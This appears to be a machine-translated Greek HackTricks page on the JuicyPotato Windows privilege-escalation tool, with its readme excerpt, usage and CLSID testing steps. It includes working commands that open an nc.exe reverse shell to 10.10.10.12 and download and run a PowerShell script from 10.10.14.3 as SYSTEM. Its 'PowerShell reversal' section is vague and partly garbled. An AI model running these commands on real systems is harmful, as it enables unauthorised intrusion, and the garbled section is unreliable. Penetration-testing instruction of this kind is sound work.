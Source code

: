 # JuicyPotato

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε** στην [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

{% hint style="warning" %}
**Το JuicyPotato δεν λειτουργεί** στα Windows Server 2019 και στα Windows 10 build 1809 και μεταγενέστερα. Ωστόσο, μπορείτε να χρησιμοποιήσετε τα [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) για να **εκμεταλλευτείτε τα ίδια προνόμια και να αποκτήσετε πρόσβαση σε επίπεδο `NT AUTHORITY\SYSTEM`**. _**Ελέγξτε:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (κατάχρηση των χρυσών προνομίων) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Μια γλυκιά έκδοση του_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, με λίγο χυμό, δηλαδή ένα εργαλείο **Ανόδου Προνομίων Τοπικού Επιπέδου, από Λογαριασμούς Υπηρεσίας Windows σε NT AUTHORITY\SYSTEM**_

#### Μπορείτε να κατεβάσετε το juicypotato από [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Περίληψη <a href="#summary" id="summary"></a>

**[Από το Readme του juicy-potato](https://github.com/ohpe/juicy-potato/blob/master/README.md):**

Το [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) και οι [παραλλαγές](https://github.com/decoder-it/lonelypotato) του εκμεταλλεύονται την αλυσίδα ανόδου προνομίων βασισμένη στην υπηρεσία [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) έχοντας τον ακροατή MiTM στη διεύθυνση `127.0.0.1:6666` και όταν έχετε τα προνόμια `SeImpersonate` ή `SeAssignPrimaryToken`. Κατά την αναθεώρηση μιας εγκατάστασης Windows, ανακαλύψαμε μια ρύθμιση όπου το `BITS` ήταν απενεργοποιημένο εσκεμμένα και η θύρα `6666` ήταν κατειλημμένη.

Αποφασίσαμε να εκμεταλλευτούμε το [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Πείτε γεια στο Juicy Potato**.

> Για τη θεωρία, δείτε [Rotten Potato - Ανόδος Προνομίων από Λογαριασμούς Υπηρεσίας σε SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) και ακολουθήστε την αλυσίδα των συνδέσμων και των αναφορών.

Ανακαλύψαμε ότι, εκτός από το `BITS`, υπάρχουν αρκετοί COM servers που μπορούμε να καταχρηστείτε. Απλά πρέπει να:

1. είναι δυνατή η δημιουργία αντικειμένων από τον τρέχοντα χρήστη, συνήθως ένας "χρήστης υπηρεσίας" που έχει προνόμια προσομοίωσης
2. υλοποιούν τη διεπαφή `IMarshal`
3. εκτελούνται ως χρήστης με αυξημένα προνόμια (SYSTEM, Administrator, ...)

Μετά από μερικές δοκιμές, αποκτήσαμε και δοκιμάσαμε μια εκτενή λίστα [ενδιαφέροντων CLSID](http://ohpe.it/juicy-potato/CLSID/) σε διάφορες εκδόσεις των Windows.

### Λεπτομέρειες για το Juicy
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Τελικές σκέψεις <a href="#final-thoughts" id="final-thoughts"></a>

**[Από το αρχείο Readme του juicy-potato](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts):**

Εάν ο χρήστης έχει τα δικαιώματα `SeImpersonate` ή `SeAssignPrimaryToken`, τότε είστε **SYSTEM**.

Είναι σχεδόν αδύνατο να αποτρέψετε την κατάχρηση όλων αυτών των COM Servers. Μπορείτε να σκεφτείτε να τροποποιήσετε τα δικαιώματα αυτών των αντικειμένων μέσω του `DCOMCNFG`, αλλά καλή τύχη, αυτό θα είναι πρόκληση.

Η πραγματική λύση είναι να προστατεύσετε τους ευαίσθητους λογαριασμούς και τις εφαρμογές που εκτελούνται υπό τους λογαριασμούς `* SERVICE`. Η διακοπή του `DCOM` θα αναστείλει σίγουρα αυτήν την εκμετάλλευση, αλλά μπορεί να έχει σοβαρές επιπτώσεις στο υποκείμενο λειτουργικό σύστημα.

Από: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Παραδείγματα

Σημείωση: Επισκεφθείτε [αυτήν τη σελίδα](https://ohpe.it/juicy-potato/CLSID/) για μια λίστα με τα CLSIDs που μπορείτε να δοκιμάσετε.

### Λήψη αντίστροφης κατεύθυνσης κέλυφους με το nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Αναστροφή Powershell

Η αναστροφή Powershell είναι μια τεχνική που χρησιμοποιείται για να εκτελέσετε κώδικα Powershell από μια εφαρμογή ή μια διαδικασία με υψηλότερα δικαιώματα. Αυτό μπορεί να επιτρέψει σε έναν επιτιθέμενο να αναβαθμίσει τα δικαιώματά του και να αποκτήσει πρόσβαση διαχειριστή σε ένα σύστημα Windows.

Για να εκτελέσετε μια αναστροφή Powershell, ακολουθήστε τα παρακάτω βήματα:

1. Επιλέξτε μια εφαρμογή ή μια διαδικασία με υψηλότερα δικαιώματα που μπορείτε να εκτελέσετε κώδικα Powershell από αυτήν.
2. Κατεβάστε ένα αντίγραφο του αρχείου `JuicyPotato.exe` από τον σύνδεσμο [εδώ](https://github.com/ohpe/juicy-potato/releases).
3. Εκτελέστε το αρχείο `JuicyPotato.exe` με τις κατάλληλες παραμέτρους για να εκτελέσετε τον κώδικα Powershell. Για παράδειγμα, μπορείτε να χρησιμοποιήσετε την παράμετρο `-t` για να καθορίσετε τον τύπο του αντικειμένου που θα εκτελέσει τον κώδικα Powershell και την παράμετρο `-p` για να καθορίσετε τον καταχωρητή που θα χρησιμοποιηθεί.
4. Αν η αναστροφή Powershell είναι επιτυχής, θα εκτελεστεί ο κώδικας Powershell με υψηλότερα δικαιώματα και θα αποκτήσετε πρόσβαση διαχειριστή στο σύστημα Windows.

Είναι σημαντικό να σημειωθεί ότι η αναστροφή Powershell είναι μια επιθετική τεχνική και πρέπει να χρησιμοποιείται μόνο για νόμιμους σκοπούς, όπως η δοκιμή ασφάλειας συστημάτων.
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Εκκίνηση νέου CMD (εάν έχετε πρόσβαση RDP)

![](<../../.gitbook/assets/image (37).png>)

## Προβλήματα με το CLSID

Συχνά, το προεπιλεγμένο CLSID που χρησιμοποιεί το JuicyPotato **δεν λειτουργεί** και η εκμετάλλευση αποτυγχάνει. Συνήθως, απαιτούνται πολλές προσπάθειες για να βρεθεί ένα **εργαστήριο CLSID**. Για να λάβετε μια λίστα με τα CLSID που πρέπει να δοκιμάσετε για ένα συγκεκριμένο λειτουργικό σύστημα, πρέπει να επισκεφθείτε αυτήν τη σελίδα:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Έλεγχος των CLSID**

Πρώτα, θα χρειαστείτε μερικά εκτελέσιμα αρχεία εκτός από το juicypotato.exe.

Κατεβάστε το [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) και φορτώστε το στην PS συνεδρίασή σας, κατεβάστε και εκτελέστε το [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Αυτό το σενάριο θα δημιουργήσει μια λίστα πιθανών CLSID για να δοκιμάσετε.

Στη συνέχεια, κατεβάστε το [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(αλλάξτε τη διαδρομή για τη λίστα CLSID και για το εκτελέσιμο juicypotato) και εκτελέστε το. Θα αρχίσει να δοκιμάζει κάθε CLSID και **όταν ο αριθμός θύρας αλλάξει, θα σημαίνει ότι το CLSID λειτούργησε**.

**Ελέγξτε** τα εργαστήρια CLSID **χρησιμοποιώντας την παράμετρο -c**

## Αναφορές
* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στην** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
